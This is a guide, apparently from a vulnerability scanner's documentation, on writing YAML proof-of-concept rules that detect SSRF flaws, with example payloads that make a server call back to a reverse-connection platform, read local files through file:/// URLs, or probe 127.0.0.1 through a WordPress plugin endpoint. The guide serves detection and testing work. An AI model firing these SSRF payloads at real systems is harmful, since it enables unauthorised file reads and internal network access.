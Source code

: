 # SSRF

!> 切记SSRF检测的是能否正确从服务端`发出`请求，要严格与redirect区分。同时尽量去检测有回显的情况，如果确实无回显，那么使用反连平台即可

## 无回显情况

> 这里的无回显指的是访问指定的地址没有`确切的返回结果`或者`报错信息`

无回显的SSRF较为容易进行匹配，在触发请求的地点使用`正确`的反连地址进行验证即可，同时在表达式中对反连平台返回的结果进行匹配。成功匹配就说明成功发送了

```yaml
name: poc-yaml-ssrf-reverse
transport: http
set:
	reverse: newReverse()
	reverseURL: reverse.url
rules:
	r0:
		request:
			cache: true
			method: POST
			path: /xxx
			headers:
				Content-Type: application/json
			body: |
				{"content": "include:\n remote: {{reverseURL}}"}
		expression: response.status == 200 && reverse.wait(5)
```

## 有回显情况

这个与无回显正好相反，访问指定的站点之后可能会出现一些可以进行匹配的特征。这里总结下之前见过的一些情况

### 文件读取类型

```yaml
r0:
	request:
		cache: true
		method: POST
		path: /xxx
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: |
			url=file:///{{filename}}
		follow_redirects: false
	expression: |
		response.status == 500 && response.body.bcontains(b"\"exception\":\"java.io.FileNotFoundException\",")
```

使用协议读取文件时，可以尝试去读取系统中存在的文件或者不存在的文件，依据response的内容与状态写出对应的匹配表达式即可

### 访问外部站点类型(不是很推荐)

```yaml
r0:
	request:
		cache: true
		method: GET
		path: /xxx/http/example.com
		follow_redirects: true
	expression: response.status == 200 && response.body.bcontains(b"<title>Example Domain</title>") && response.body.bcontains(b"<h1>Example Domain</h1>")
```

!> 当访问外部站点时，一定需要注意的是能够访问的只是`公共站点`，一定不要请求一些私有项目的公开页面或者文件

这个时候我们只要尝试去匹配返回结果中关于请求站点的相关内容即可。但是注意除了被访问页面的内容之外，我们一定要去匹配一些和被访问站点不同的内容，比如说状态码以及其他存在漏洞的站点中存在的内容

> 但是这种方式是非常不推荐的，一方面是有目标不出网的可能性，另一方面当匹配内容与目标站点区分度不大时会有误报的风险

### 访问内部站点类型

```yaml
r0:
	request:
		cache: true
		method: GET
		path: /wp-admin/admin-ajax.php?action=formcraft3_get&URL=http://127.0.0.1:0
		follow_redirects: false
	expression: |
		response.status == 200 && response.body.bcontains(b"cURL error 3: ") && response.body.bcontains(b"failed")
```

这个例子说明了通过访问本地地址来验证SSRF漏洞的存在。一般这种情况下

- 尝试访问开放的端口，判断对应端口里返回的信息进行判断
    - 不推荐，开放的端口可能过于随机，且匹配的内容过于不固定
- 尝试访问一般情况下一定不开放或者不存在的端口，判断返回的报错信息进行判断
    - 较为推荐的写法

## 模板

[SSRF](/guide/yaml/yaml_poc_template?id=ssrfurl跳转类)
